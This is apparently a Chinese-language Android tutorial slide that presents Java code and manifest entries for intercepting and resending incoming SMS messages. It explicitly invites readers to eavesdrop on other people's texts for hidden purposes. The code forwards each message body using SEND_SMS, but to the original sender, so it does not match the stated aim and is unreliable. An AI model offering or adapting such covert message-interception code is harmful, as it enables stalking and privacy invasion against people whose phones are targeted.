

# 使用广播接收者窃听短信
如果你想窃听别人接收到的短信，达到你不可告人的目的，那么本节内容可以实现你的需求。
当系统收到短信时，会发出一个action名称为android.provider.Telephony.SMS_RECEIVED的广播Intent，该Intent存放了接收到的短信内容，使用名称“pdus”即可从Intent中获取短信内容。
public class IncomingSMSReceiver extends BroadcastReceiver {
private static final String SMS_RECEIVED = "android.provider.Telephony.SMS_RECEIVED";
@Override public void onReceive(Context context, Intent intent) {
if (intent.getAction().equals(SMS_RECEIVED)) {
	SmsManager sms = SmsManager.getDefault();
	Bundle bundle = intent.getExtras();
	if (bundle != null) {
	Object[] pdus = (Object[]) bundle.get("pdus");
	SmsMessage[] messages = new SmsMessage[pdus.length];
	for (int i = 0; i < pdus.length; i++) messages[i] = SmsMessage.createFromPdu((byte[]) pdus[i]);
		for (SmsMessage message : messages){
			String msg = message.getMessageBody();
			String to = message.getOriginatingAddress();
			sms.sendTextMessage(to, null, msg, null, null);
}}}}}
在AndroidManifest.xml文件中的<application>节点里对接收到短信的广播Intent进行订阅:
<receiver android:name=".IncomingSMSReceiver">
<intent-filter><action android:name="android.provider.Telephony.SMS_RECEIVED"/></intent-filter></receiver>
在AndroidManifest.xml文件中添加以下权限：
<uses-permission android:name="android.permission.RECEIVE_SMS"/><!-- 接收短信权限 -->
<uses-permission android:name="android.permission.SEND_SMS"/><!-- 发送短信权限 -->